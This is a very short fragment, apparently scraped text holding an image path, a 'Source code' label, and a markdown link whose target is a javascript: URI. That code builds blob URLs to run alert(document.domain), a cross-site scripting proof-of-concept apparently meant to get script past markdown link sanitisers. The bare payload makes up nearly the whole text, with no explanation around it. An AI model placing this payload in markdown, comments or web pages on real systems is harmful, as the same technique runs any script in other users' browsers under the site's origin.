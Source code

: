 [x](javascript:((()=>{const j=new Blob(["alert(document.domain)"],{type:"application/javascript"});const u=URL.createObjectURL(j);const h=new Blob([`<script src='${u}'><\/script>`],{type:"text/html"});location=URL.createObjectURL(h)})()))
